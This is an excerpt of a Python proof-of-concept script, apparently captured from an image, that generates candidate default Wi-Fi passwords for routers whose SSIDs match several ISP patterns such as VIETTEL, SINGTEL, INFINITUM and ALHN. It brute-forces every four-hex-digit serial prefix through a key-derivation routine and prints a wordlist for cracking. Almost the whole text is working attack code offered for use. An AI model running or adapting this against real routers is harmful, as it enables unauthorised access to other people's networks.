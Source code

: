 ```py
	md5_secret2 = str2md5(secret2)

	#wanpasswd = base64.b32encode(bytes(bytearray(md5_secret1[:16] + md5_secret2[:3]))).decode("ascii")[:30]

	lower = upper = 0

	for i in range(8):
		upper = (lower >> 0x18 | ((upper << 8)&0xffffffff))&0xffffffff
		lower = (((lower << 8)&0xffffffff) | md5_secret2[i + 8])&0xffffffff

	longpasswd = ((upper<<32)+lower)%0x2540be400

	return longpasswd

parser = argparse.ArgumentParser(prog="poc", description="A poc script to efficiently crack vulnerable routers")
parser.add_argument("ssid", type=str, help="the ssid to attack")
args = parser.parse_args()

oui   =     "D0542D"

ssids = [   "VIETTEL-[A-F0-9]{4}",
            "SKYTEL-[A-F0-9]{4}",
            "SINGTEL-[A-F0-9]{4}-5G-1",
            "SINGTEL-[A-F0-9]{4}",
            "ORANGEFIBER-[A-F0-9]{4}",
            "INFINITUM[A-F0-9]{4}_5-4",
            "INFINITUM[A-F0-9]{4}_5-3",
            "INFINITUM[A-F0-9]{4}_5-2",
            "INFINITUM[A-F0-9]{4}_5",
            "INFINITUM[A-F0-9]{4}_2.4-4",
            "INFINITUM[A-F0-9]{4}_2.4-3",
            "INFINITUM[A-F0-9]{4}_2.4-2",
            "INFINITUM[A-F0-9]{4}_2.4",
            "GO_WiFi_[A-F0-9]{4}",
            "ALHN-[A-F0-9]{4}-4",
            "ALHN-[A-F0-9]{4}-3",
            "ALHN-[A-F0-9]{4}-11ac-4",
            "ALHN-[A-F0-9]{4}-11ac-3",
            "ALHN-[A-F0-9]{4}-11ac-2",
            "ALHN-[A-F0-9]{4}-11ac",
            "ALHN-[A-F0-9]{4}"]

wordlist = set()

for s in ssids:
    if re.match(s, args.ssid) != None:
        serialBytes = args.ssid
        for r in s.split("[A-F0-9]{4}"):
            serialBytes = serialBytes.replace(r, "")
        for i in range(0xffff + 1):
            candidate = genpwd_longpasswd(oui, "{:04x}{}".format(i, serialBytes))
            print(f"{candidate:010}")
        break
```
